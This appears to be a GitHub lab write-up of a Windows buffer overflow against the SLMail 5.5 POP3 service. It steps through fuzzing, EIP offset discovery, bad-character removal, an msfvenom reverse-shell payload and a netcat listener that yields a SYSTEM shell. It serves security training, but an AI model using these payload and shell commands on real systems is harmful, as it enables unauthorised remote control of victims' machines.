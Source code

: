 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.
- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.
- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.
- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.
- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.
- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.
- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.
- Updated the **“fuzzy.py”** with the target IP and port.
- In the BOF directory, executed the script using “python2 fuzzy.py”.
- In Immunity debugger, noticed EIP showing **“41414141”**.
- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.
- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.
- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.
- Observed EIP in Immunity debugger updated to **“39694438”**.
- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.
- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.
- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.
- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.
- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.
- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.
- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.
- Made another update to **“fuzzy.py”**, removing the identified bad character.
- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.
- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.
- Updated “fuzzy.py” with the crafted shell code.
- Set up a listener on Kali with **“nc -lvp 4444”**.
- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
